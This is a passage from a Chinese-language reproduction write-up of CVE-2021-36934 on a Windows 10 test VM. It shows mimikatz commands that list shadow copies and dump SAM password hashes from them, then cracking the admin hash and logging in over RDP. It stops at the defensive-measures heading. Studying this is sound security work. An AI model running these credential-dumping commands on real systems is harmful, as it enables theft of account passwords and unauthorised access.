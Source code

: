   

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806182719.png)

  

(4)复现环境为win10虚拟机，已经创建还原点

  

mimikatz最新版已经把这个漏洞武器化，可以一键操作

  

  * 

    
    
    misc::shadowcopies

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806182720.png)

  

获取安全帐户管理器（SAM）数据库，它包含用户密码的 NTLM，有时包含 LM 哈希

  

  * 

    
    
    lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\DeviceHarddiskVolumeShadowCopy1\Windows\System32\config\SAM

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806182721.png)

  

winadmin是管理员账户，破解hash值，密码为winadmin@123

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806182722.png)

  

3389连接这台win10虚拟机，如果win10没有3389端口，可以手动打开

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806182723.png)

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806182724.png)

  

从以上情况可以简单总结CVE-2021-36934漏洞触发需要系统盘大于128G或者是创建了还原点

  

#  **3.防御措施**
